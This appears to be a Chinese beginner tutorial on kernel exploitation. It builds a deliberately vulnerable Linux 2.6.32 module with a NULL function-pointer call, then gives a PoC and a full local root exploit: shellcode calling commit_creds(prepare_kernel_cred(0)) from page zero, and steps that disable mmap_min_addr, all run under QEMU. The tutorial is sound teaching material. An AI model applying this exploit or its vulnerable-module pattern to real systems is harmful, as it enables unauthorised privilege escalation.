

# 新手玩转`Linux Kernel`漏洞之`Null Pointer Dereference`
### 前言
> 这是我内核漏洞的入门篇, 不是很复杂, 希望能给徘徊在门外的小伙伴一点启发.

### 漏洞描述
> &nbsp;&nbsp;&nbsp;&nbsp;A NULL pointer dereference occurs when the application dereferences a pointer that it expects to be valid, but is NULL, typically causing a crash or exit.
### 漏洞代码
```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

void (*my_funptr)(void);

int bug1_write(struct file* file, const char* buf, unsigned long len){
    my_funptr();
    return len;
}

static int __int null_dereference_init(void){
    printk(KERN_ALERT "null_dereference driver init!\n");
    create_proc_entry("bug1", 0666, 0)->write_proc = bug1_write;
    return 0;
}

static void __exit null_dereference_exit(void){
    printk(KERN_ALERT "null_dereference driver exit\n");
}
module_init(null_dereference_init);
module_exit(null_dereference_exit);
```
*小结:* 这是一个`Linux Kernel Module`类型代码,载入内核执行初始化`null_dereference_init`. 在`proc`中创建一个`Entry`为`bug1`.当`write bug1`时, 会触发`Kernel`调用`bug1_write`函数,而`bug1_write`中的`my_funptr()`是一个空指针.建议大家去学习一下这段代码中不懂的点, 理解上面这段代码很是重要

### 编译`Module`
```bash
obj-m := null_dereference.o
KERNELDR := /home/bill/CTF/Kernel/linux-2.6.32/
PWD := $(shell pwd)
modules:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules
modules_install:
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install
clean:
	$(MAKE) -C $(KERNELDR) M=$(PWD) clean
```
*需要注意的几点:* `KERNELDR`填写为自己机器的源码根目录, 我自己在`Ubuntu 12.04 i386`上面没有编译成功, 在`Ubuntu 16.04 64bit`上面编译成功了.

将`null_dereference.ko`放入到`busybox-1.19.4/_install/usr`中.
### Poc.c
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

char payload[] = "\xe9\xea\xbe\xad\xde"; //jmp 0xdeadbeef

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
    return 0;
}
```
静态编译,放入`busybox-1.19.4/_install/usr`中,`gcc -static Poc.c -o Poc`.

### 调试
重新打包`rootfs.img`, 启动`Qemu`, `CTRL + ALT + 2`, 输入`gdbserver tcp::1234`,

`CTRL + ALT + 1`切回命令行,
```
insmod /usr/null_dereference.ko #载入Module
/usr/Poc
```
结果:

*结论*:证明执行了我们的`shellcode`.
### 提权
> 从普通用户提权到`root`用户.

### 知识点
> &nbsp;&nbsp;&nbsp;&nbsp;进程的特权等级是通过`struct cred`结构体来标识的.当一个进程的`uid,gid`为`0`, 就表明这是一个`root`进程,提权成功.

```c
struct cred {
	atomic_t usage;
	#ifdef CONFIG_DEBUG_CREDENTIALS
	atomic_t	subscribers;	/* number of processes subscribed */
	void		*put_addr;
	unsigned	magic;
#define CRED_MAGIC	0x43736564
#define CRED_MAGIC_DEAD	0x44656144
#endif
	uid_t		uid;		/* real UID of the task */
	gid_t		gid;		/* real GID of the task */
	uid_t		suid;		/* saved UID of the task */
	gid_t		sgid;		/* saved GID of the task */
	uid_t		euid;		/* effective UID of the task */
	gid_t		egid;		/* effective GID of the task */
	uid_t		fsuid;		/* UID for VFS ops */
	gid_t		fsgid;		/* GID for VFS ops */
	......
}
```

### Expolit
1. 思路: 执行`commit_creds(prepare_kernel_cred(0))`
```c
/*
 *prepare_kernel_cred - Prepare a set of credentials for a kernel service
 */
struct cred *prepare_kernel_cred(struct task_struct *daemon);
/*
 * commit_creds - Install new credentials upon the current task
 */
int commit_creds(struct cred* new)
```
2. 获取函数地址
```bash
/# grep prepare_kernel_cred /proc/kallsyms
c1069be0 T prepare_kernel_cred
/# grep commit_creds /proc/kallsyms
c1069a40 T commit_creds
```
3. 编写`shellcode`
```c
xor %eax, %eax
call 0xc1069be0 //prepare_kernel_cred
call 0xc1069a40 //commit_creds
ret
```
保存为`payload.s`
```bash
$ gcc payload.s -o payload -nostdlib -Ttext=0
$ objdump -d payload

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 d9 9b 06 c1       	call   c1069be0 <_end+0xc1068bd0>
   7:	e8 34 9a 06 c1       	call   c1069a40 <_end+0xc1068a30>
   c:	c3  
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";
```
4. 编写`exp.c`
```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
/*
 *xor %eax, %eax
 *call 0xc1069be0
 *call 0xc1069a40
 *ret
 */
char payload[] = "\x31\xc0\xe8\xd9\x9b\x06\xc1\xe8\x34\x9a\x06\xc1\xc3";

int main(){
    mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    memcpy(0, payload, sizeof(payload));
    int fd = open("/proc/bug1", O_WRONLY);
    write(fd, "bill", 4); //call my_funptr
		system("/bin/sh");
    return 0;
}
```
编译: `gcc -static exp.c -o exp`, 拷贝入'/usr'目录, 重新打包.
4. 提权
由于内核已经使用`mmap_min_addr`作为缓解措施, 我们需要让你重新为`0`.
```bash
#/ sysctl -w "vm.mmap_min_addr=0"
#/ mdkir -p /home/bill
#/ touch /etc/passwd
#/ touch /etc/group
#/ adduser bill
#/ insmod /usr/null_dereference.ko
#/ su bill
~$ /usr/exp
/home/bill #
```
结果图:

### 相关链接
[pwn4](http://pwn4.fun/2017/04/19/Linux%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%EF%BC%88%E4%BA%8C%EF%BC%89NULL-Pointer-Dereference/)
[相关文件下载]()
